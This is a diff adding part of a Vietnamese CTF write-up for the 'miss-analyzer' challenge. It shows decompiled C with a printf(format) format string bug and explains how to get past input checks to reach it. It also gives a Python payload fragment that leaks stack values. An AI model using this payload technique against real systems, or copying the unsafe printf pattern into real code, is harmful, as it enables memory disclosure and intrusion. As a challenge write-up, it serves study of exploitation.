

Before and after one commit to antkss/writeUP, a Markdown page: miss-analyzer/miss.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/miss-analyzer/miss.md
+++ b/miss-analyzer/miss.md
@@ -131,3 +131,75 @@ puts("Submit replay as hex (use xxd -p -c0 replay.osr | ./analyzer):");
     }
     consume_bytes(&pointerofbuff, &size, 4);
 ```
+- để có thể vượt qua hàm read_string thì ta phải nhập thêm 2 bytes a nữa cộng thêm bytes 0b
+```c
+ result = (_BYTE *)read_byte(buff, size);
+  if ( (_BYTE)result )
+  {
+    if ( (_BYTE)result != 0xB )
+    {
+      puts("Error: failed to read string");
+      exit(1);
+    }
+```
+- để vượt các vòng lặp dưới nữa của hàm nàyvà có thể điều khiển số bytes nhập vào biến format ta có thể cộng thêm chuỗi nhập vào ban đầu là số nhưng phải bao gồm 2 chữ số
+```c
+   v10 = 0;
+    for ( i = 0; ; i += 7 )
+    {
+      byte = read_byte(buff, size);
+      v10 |= (byte & 127) << i;
+      if ( byte >= 0 )
+        break;
+    }
+    for ( j = 0; ; ++j )
+    {
+      v6 = a4;
+      if ( a4 > v10 )
+        v6 = v10;
+      if ( v6 <= j )
+        break;
+      a3[j] = read_byte(buff, size);
+    }
+    while ( v10 > j )
+```
+- đây chính là nơi mà tạo ra size cho việc nhập format
+```c
+byte = read_byte(buff, size);
+      v10 |= (byte & 127) << i;
+
+```
+```c
+  read_string(&pointerofbuff, &size, format, '\xFF');
+    printf("Hash: %s\n", format);
+    read_string(&pointerofbuff, &size, format, 0xFFu);
+    printf("Player name: ");
+    printf(format);
+```
+- ở trong payload sẽ bao gồm việc vượt qua các hàm trên để đến được formatstring
+```python
+b'a'*10 +  b'0b' +b'08' + b'aabaaaaaabaaaaaa' + b'0b' + b'08' +  b'2535312470000000'
+```
+- format string sẽ được dịch lại tương tự như cách dịch của hàm hexs2bin
+```c
+read_string(&pointerofbuff, &size, format, '\xFF');
+    printf("Hash: %s\n", format);
+    read_string(&pointerofbuff, &size, format, 0xFFu);
+    printf("Player name: ");
+    printf(format);
+    putchar(10);
+    read_string(&pointerofbuff, &size, format, 0xFFu);
+    consume_bytes(&pointerofbuff, &size, 10);
+    v6 = read_short(&pointerofbuff, &size);
+    printf("Miss count: %d\n", v6);
+    if ( v6 )
+      puts("Yep, looks like you missed.");
+    else
+      puts("You didn't miss!");
+    puts("=~=~=~=~=~=~=~=~=~=~=\n");
+    free(buff);
+    free(pointerofbuff);
+  }
+  return 0;
+}
+```
````
Also changed, not shown: other parts of miss-analyzer/miss.md (+1 -1 lines).
